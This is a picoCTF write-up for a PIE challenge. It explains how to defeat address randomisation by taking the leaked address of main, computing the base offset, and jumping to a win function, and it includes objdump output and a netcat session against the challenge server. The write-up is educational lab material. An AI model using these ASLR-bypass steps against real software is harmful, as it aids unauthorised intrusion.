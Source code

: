 ```c
  void (*foo)(void) = (void (*)())val;
  foo();
}
```

We note the binary is 64-bit:

```
$ file vuln
vuln: ELF 64-bit LSB pie executable, x86-64 [...]
```


In this problem, the program tells us the location of `main` loaded in memory, then jumps to any address the user enters.

Due to Address Space Layout Randomization (ASLR) of the instructions, (also called PIE or Position Independent Executable in the case that it is the base instruction pointer being random), we don't know
the address we want to jump to until we learn the location of an address.

Looking into the relevant areas of the disassembly of the binary, which we can obtain through `objdump -D <binary name>`:

```asm
00000000000012a7 <win>:
    12a7:	f3 0f 1e fa          	endbr64
    12ab:	55                   	push   rbp
[...]

000000000000133d <main>:
    133d:	f3 0f 1e fa          	endbr64
    1341:	55                   	push   rbp
    1342:	48 89 e5             	mov    rbp,rsp
[...]
```

The address of `win` is `00000000000012a7` and the address of `main` is `000000000000133d`. However, when the executable is loaded into memory, they aren't actually loaded at that address, but at a random offset plus that address. Each execution of the executable, the offset is different.
Getting the address of `main`, subtracting `000000000000133d` to get this offset, then adding `00000000000012a7` to get the address of `win` loaded in memory, which is what we have to input.
Note that all numbers here are in hexadecimal.

Example interaction:
```
$ nc rescued-float.picoctf.net 58649
Address of main: 0x5de97f6d233d
Enter the address to jump to, ex => 0x12345: 0x5de97f6d22a7
Your input: 5de97f6d22a7
You won!
picoCTF{<FLAG>}
```

We calculated that we needed to enter `0x5de97f6d22a7` = `0x5de97f6d233d` - `0x000000000000133d` + `0x00000000000012a7` e.g. using Python:
```
$ python3
>>> hex(0x5de97f6d233d - 0x000000000000133d + 0x00000000000012a7)
'0x5de97f6d22a7'
```
